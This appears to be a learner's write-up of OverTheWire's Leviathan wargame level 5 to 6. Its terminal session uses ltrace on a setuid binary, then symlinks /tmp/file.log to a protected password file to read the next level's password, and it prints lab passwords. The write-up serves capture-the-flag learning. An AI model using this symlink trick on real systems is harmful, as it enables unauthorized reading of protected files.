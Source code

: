 # Leviathan Level 4 → Level 5 setuid root binaries and symLink

## Previous Flag
<b>0dyxT7F4QD</b>

## Goal
Use previous password to log in SSH with user <b>leviathan5</b> and port <b>2223</b> accessed on leviathan.labs.overthewire.org
Du Hint: Use binary file to redirect link and open /etc/leviathan_pass/leviathan6

## What I learned
```
Review
```

## Solution
```
PS C:\Users\trung.DESKTOP-G7C81CH\Downloads\01noobHacker\overthewire> ssh leviathan5@leviathan.labs.overthewire.org -p 2223 ⌨️
leviathan5@leviathan:~$ ls -la ⌨️
total 36
drwxr-xr-x   2 root       root        4096 Jul 28 19:05 .
drwxr-xr-x 150 root       root        4096 Jul 28 19:06 ..
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Jul 28 18:47 .bashrc     
-r-sr-x---   1 leviathan6 leviathan5 15144 Jul 28 19:05 leviathan5          # SUID binary
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
leviathan5@leviathan:~$ file leviathan5 ⌨️
leviathan5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0fbe5a715bf8cd28d02bc0e989a37f9c0ab21614, for GNU/Linux 3.2.0, not stripped
leviathan5@leviathan:~$ ./leviathan5 ⌨️
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 ⌨️ 
__libc_start_main(0x804910d, 1, 0xffffd464, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                            = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log  
)                                                      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
leviathan5@leviathan:~$ touch /tmp/file.log ⌨️
leviathan5@leviathan:~$ cat /tmp/file.log ⌨️
cat: /tmp/file.log: No such file or directory               # Note: Somehow deleting it
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log ⌨️
leviathan5@leviathan:~$ ls -la /tmp/file.log ⌨️
lrwxrwxrwx 1 leviathan5 leviathan5 30 Aug  9 00:50 /tmp/file.log -> /etc/leviathan_pass/leviathan6
leviathan5@leviathan:~$ ./leviathan5 ⌨️
szo7HDB88w 🔐
```

## Flag
<b>szo7HDB88w</b>

## Continue
[Continue](/overthewire/Leviathan0506.md)